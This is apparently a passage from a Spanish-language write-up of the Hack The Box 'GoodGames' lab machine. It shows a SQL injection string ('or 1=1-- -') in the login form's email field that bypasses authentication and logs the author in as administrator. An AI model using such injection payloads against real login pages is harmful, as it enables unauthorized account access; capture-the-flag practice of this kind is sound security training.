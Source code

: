 Y a otro de registro

<img src="/writeups/assets/img/Goodgames-htb/3.png" alt="">

Creo una cuenta. Al iniciar sesión, mi nombre se ve reflejado en un mensaje de bienvenida

<img src="/writeups/assets/img/Goodgames-htb/4.png" alt="">

Pruebo una inyección SQL en el panel de inicio de sesión

```null
email=test@test.com' or 1=1-- -&password=rubbx
```

Es vulnerable

```null
<h2 class="h4">Welcome adminrubbx</h2>
```

Aparezco loggeado como el Administrador

<img src="/writeups/assets/img/Goodgames-htb/5.png" alt="">
